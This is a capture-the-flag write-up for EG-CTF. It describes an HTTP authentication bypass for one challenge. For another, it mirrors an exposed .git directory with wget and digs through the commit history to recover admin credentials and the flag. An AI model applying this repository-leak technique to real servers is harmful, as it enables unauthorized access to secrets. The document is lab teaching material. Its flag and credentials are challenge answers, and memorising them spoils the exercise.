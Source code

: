 # EG-CTF
# Write-Up
# 1-Tamp3rat0r
I have check the site and They asked me about username and password and by guess seems like http authentication bypass
and worked. check Tamp3rat0r.py
# 2-Hold Up
i test it with DWP and i found /.git path working and i download the directory <br/>
root@cloudshell: wget --recursive --no-parent http://172.105.76.128/.git/ <br/>
root@cloudshell: ls<br/>
172.105.76.128  <br/>
root@cloudshell: cd 172.105.76.128/<br/>
root@cloudshell:/172.105.76.128 ls -a<br/>
.  ..  .git<br/>
root@cloudshell:/172.105.76.128 cd .git/<br/>
root@cloudshell:/172.105.76.128/.git ls <br/>
branches        config       HEAD   index       index.html?C=D;O=A  index.html?C=M;O=A  index.html?C=N;O=A  index.html?C=S;O=A  info  objects<br/>
COMMIT_EDITMSG  description  hooks  index.html  index.html?C=D;O=D  index.html?C=M;O=D  index.html?C=N;O=D  index.html?C=S;O=D  logs <br/> refs<br/>
// let's check the commits<br/>
root@cloudshell:/172.105.76.128/.git git reflog<br/>
2e3e1a8 HEAD@{0}: commit: Refining<br/>
89329fa HEAD@{1}: commit: NewFeature<br/>
dfecece HEAD@{2}: commit: Addinfo<br/>
b032cf8 HEAD@{3}: commit: Disable<br/>
5b9e491 HEAD@{4}: commit: DelCr<br/>
457168f HEAD@{5}: commit: AddUsetting<br/>
b55d897 HEAD@{6}: commit: editconf<br/>
70ae358 HEAD@{7}: commit (initial): initials<br/>
// i have check this commits one by one and i found <br/>
root@cloudshell:/172.105.76.128/.gitgit show 2e3e1a8<br/>
commit 2e3e1a8c124768ecbb31e92d5c070003924b9254<br/>
Author: Ben ALaa <a.alaa@egcert.eg><br/>
Date:   Thu Nov 14 23:18:26 2019 +0100 <br/>

    Refining <br/>
<br/>
diff --git a/S3cR3tPaTh/config.php b/S3cR3tPaTh/config.php<br/>
index 3d7f801..706d93b 100644<br/>
--- a/S3cR3tPaTh/config.php<br/>
+++ b/S3cR3tPaTh/config.php<br/>
@@ -420,15 +420,6 @@ CONFIG = array(<br/>
 'overwriteprotocol' => '',<br/>
<br/>
 /** <br/>
- * Override webroot<br/>
- * ownCloud attempts to detect the webroot for generating URLs automatically.<br/>
- * For example, if `www.example.com/owncloud` is the URL pointing to the<br/>
- * ownCloud instance, the webroot is `/owncloud`. When proxies are in use, it<br/>
- * may be difficult for ownCloud to detect this parameter, resulting in invalid URLs. <br/>
- <br/>
-'overwritewebroot' => '',<br/>
-<br/>
-/<br/>
   Override condition<br/>
   This option allows you to define a manual override condition as a regular<br/>
   expression for the remote IP address. The keys `overwritewebroot`,<br/>
// this show us the path of admin log in is /S3cR3tPaTh/<br/>
root@cloudshell:/172.105.76.128/.gitgit show 5b9e491<br/>
commit 5b9e491802d53d6af1ef25206ccb0765b64a248b<br/>
Author: Ben ALaa <a.alaa@egcert.eg>
Date:   Thu Nov 14 23:15:11 2019 +0100<br/>
<br/>
    DelCr<br/>
<br/>
diff --git a/S3cR3tPaTh/config.php b/S3cR3tPaTh/config.php<br/>
index 46ed4f3..72e9842 100644<br/>
--- a/S3cR3tPaTh/config.php<br/>
+++ b/S3cR3tPaTh/config.php<br/>
@@ -194,7 +194,7 @@ CONFIG = array(<br/>
 'knowledgebaseenabled' => true,<br/>
<br/>
 /** <br/>
- * Enables or disables avatars or user profile photos<br/>
+ /* Enables or disables avatars or user profile photos<br/>
  * `true` enables avatars, or user profile photos, `false` disables them.<br/>
  * These appear on the User page, on user's Personal pages and are used by some apps<br/>
  * (contacts, mail, etc).<br/>
@@ -469,15 +469,7 @@ CONFIG = array(<br/>
<br/>
<br/>
<br/>
-<br/>
- Admin Credentials<br/>
-<br/>
-'Admin_Login' => 'Administrator' <br/><br/>
-'Admin_Password' => 'FN3ym@bZNaF&'<br/><br/>

///////////////////////////////////////////////////////////////// <br/>
admin = Administrator <br/>
password = FN3ym@bZNaF& <br/>
after i try it #flag : EGCTF{Co0o0o0L_I_g0t_Th3_R3p0} <br/>
sorry if something it's not clear <br/>
////////////////////////////////////////////////////////////////// <br/>
